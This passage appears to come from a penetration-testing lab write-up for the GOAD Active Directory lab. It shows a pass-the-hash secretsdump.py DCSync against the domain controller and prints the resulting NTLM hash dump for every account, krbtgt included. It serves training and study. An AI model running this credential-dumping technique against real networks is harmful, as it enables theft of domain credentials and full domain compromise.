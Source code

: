 <div style="text-align:center"><img src="img6.webp"></div>

<br>
<div style="background-color: #F0C4B49C; padding: 5px; border-radius: 10px">
	<p style="color: #000000">
		This is the unintended configuration I mentioned earlier. The `localuser` account does not normally exist within GOAD. It is an account created by Ludus to administer each device. However, if this was a real-life scenario and I was a threat actor, I would not care what is and is not supposed to be there. I use what I can and I achieve the goal I want. So just FYI.
	</p>
</div>
<br>

Well, with a DA account compromised, I ran `secretsdump.py` this time, along with the `-just-dc-ntlm` argument to have the tool only spit out NTLM hashes. I could leave this argument out if I was interested in also getting AES hashes, but I am not in this case.

```
# secretsdump.py sevenkingdoms.local/localuser@10.2.10.10 -hashes :8846f7eaee8fb117ad06bdd830b7586c -just-dc-ntlm -outputfile creds/sevenkingdoms_just_ntlm

Impacket v0.11.0 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c66d72021a2d4744409969a581a1705e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0637ab576c34b0072d09cda7dbc7e667:::
localuser:1000:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
tywin.lannister:1113:aad3b435b51404eeaad3b435b51404ee:af52e9ec3471788111a6308abff2e9b7:::
jaime.lannister:1114:aad3b435b51404eeaad3b435b51404ee:12e3795b7dedb3bb741f2e2869616080:::
cersei.lannister:1115:aad3b435b51404eeaad3b435b51404ee:c247f62516b53893c7addcf8c349954b:::
tyron.lannister:1116:aad3b435b51404eeaad3b435b51404ee:b3b3717f7d51b37fb325f7e7d048e998:::
robert.baratheon:1117:aad3b435b51404eeaad3b435b51404ee:9029cf007326107eb1c519c84ea60dbe:::
joffrey.baratheon:1118:aad3b435b51404eeaad3b435b51404ee:3b60abbc25770511334b3829866b08f1:::
renly.baratheon:1119:aad3b435b51404eeaad3b435b51404ee:1e9ed4fc99088768eed631acfcd49bce:::
stannis.baratheon:1120:aad3b435b51404eeaad3b435b51404ee:d75b9fdf23c0d9a6549cff9ed6e489cd:::
petyer.baelish:1121:aad3b435b51404eeaad3b435b51404ee:6c439acfa121a821552568b086c8d210:::
lord.varys:1122:aad3b435b51404eeaad3b435b51404ee:52ff2a79823d81d6a3f4f8261d7acc59:::
maester.pycelle:1123:aad3b435b51404eeaad3b435b51404ee:9a2a96fa3ba6564e755e8d455c007952:::
KINGSLANDING$:1001:aad3b435b51404eeaad3b435b51404ee:de1956f4d589614b4f90f7f1d445ab23:::
NORTH$:1104:aad3b435b51404eeaad3b435b51404ee:1a9fa36e47adf4e38aadca283cc7b499:::
ESSOS$:1105:aad3b435b51404eeaad3b435b51404ee:e856402d05ac62577da64cf56f95bd69:::
[*] Cleaning up...
```
